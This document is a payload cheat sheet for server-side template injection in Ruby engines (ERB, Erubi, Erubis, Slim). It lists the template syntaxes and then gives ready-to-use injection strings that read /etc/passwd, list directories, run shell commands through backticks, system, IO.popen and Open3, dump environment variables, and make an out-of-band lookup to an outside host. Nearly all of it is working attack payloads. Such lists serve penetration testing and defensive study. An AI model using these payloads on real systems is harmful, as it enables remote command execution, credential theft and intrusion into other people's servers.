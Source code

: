 # Server Side Template Injection - Ruby

## Summary

- [Templating Libraries](#templating-libraries)
- [Ruby](#ruby)
    - [Ruby - Basic injections](#ruby---basic-injections)
    - [Ruby - Retrieve /etc/passwd](#ruby---retrieve-etcpasswd)
    - [Ruby - List files and directories](#ruby---list-files-and-directories)
    - [Ruby - Remote Command execution](#ruby---remote-Command-execution)
- [References](#references)


## Templating Libraries

| Template Name | Payload Format |
| ------------ | --------- |
| Erb      | `<%= %>`   |
| Erubi    | `<%= %>`   |
| Erubis   | `<%= %>`   |
| HAML     | `#{ }`     |
| Liquid   | `{{ }}`    |
| Mustache | `{{ }}`    |
| Slim     | `#{ }`     |


## Ruby

### Ruby - Basic injections

**ERB**:

```ruby
<%= 7 * 7 %>
```

**Slim**:

```ruby
#{ 7 * 7 }
```

### Ruby - Retrieve /etc/passwd

```ruby
<%= File.open('/etc/passwd').read %>
```

### Ruby - List files and directories

```ruby
<%= Dir.entries('/') %>
```

### Ruby - Remote Command execution

Execute code using SSTI for **Erb**,**Erubi**,**Erubis** engine.

```ruby
<%=(`nslookup oastify.com`)%>
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

Execute code using SSTI for **Slim** engine.

```powershell
#{ %x|env| }
```


## References

* [Ruby ERB Template Injection - Scott White & Geoff Walton - September 13, 2017](https://web.archive.org/web/20181119170413/https://www.trustedsec.com/2017/09/rubyerb-template-injection/)